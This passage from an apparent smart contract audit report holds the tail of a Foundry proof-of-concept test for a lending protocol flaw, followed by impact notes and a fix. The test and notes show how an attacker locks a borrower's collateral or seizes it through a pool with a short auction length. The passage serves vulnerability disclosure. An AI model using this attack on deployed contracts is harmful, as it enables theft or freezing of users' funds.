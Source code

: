 ```solidity
            collateral: thousand + 1
        });

        vm.prank(borrower);
        vm.expectRevert();
        lender.refinance(refinances);

        emit log("--- lender 1 `startAuction`: revert because he no longer owns the loan ---");
        vm.prank(lender1);
        vm.expectRevert(Unauthorized.selector);
        lender.startAuction(loanIds);

        emit log("--- lender 2 `giveLoan`: revert because lender2 is not loan.lender ---");
        bytes32[] memory poolIds = new bytes32[](1);
        poolIds[0] = poolId0;
        vm.prank(lender2);
        vm.expectRevert(Unauthorized.selector);
        lender.giveLoan(loanIds, poolIds);

        emit log("--- lender 2 `seizeLoan`: revert because the attacker is not started auction ---");
        vm.prank(lender2);
        vm.expectRevert(AuctionNotStarted.selector);
        lender.seizeLoan(loanIds);

        emit log("--- lender 2 `buyLoan`: revert because the attacker is not started the auction ---");
        vm.prank(lender2);
        vm.expectRevert();
        lender.buyLoan(0, poolId1);
    }
```

## Impact

The borrower is unable to retrieve their collateral because it becomes locked in a non-existent pool. The lender's funds will be stuck with the borrower, who cannot return them because they are unable to `repay` or `refinance`.

The attacker can choose to lock funds in the protocol or, if profitable, set up their own pool with a very small `auctionLength` and enough balance to `seizeLoan` and get the user's collateral.

## Tools Used

Manual review, Foundry

## Recommendations

Set the new loan lender to `pool.lender` if you want everyone to be able to match arbitrary loans with arbitrary pools.

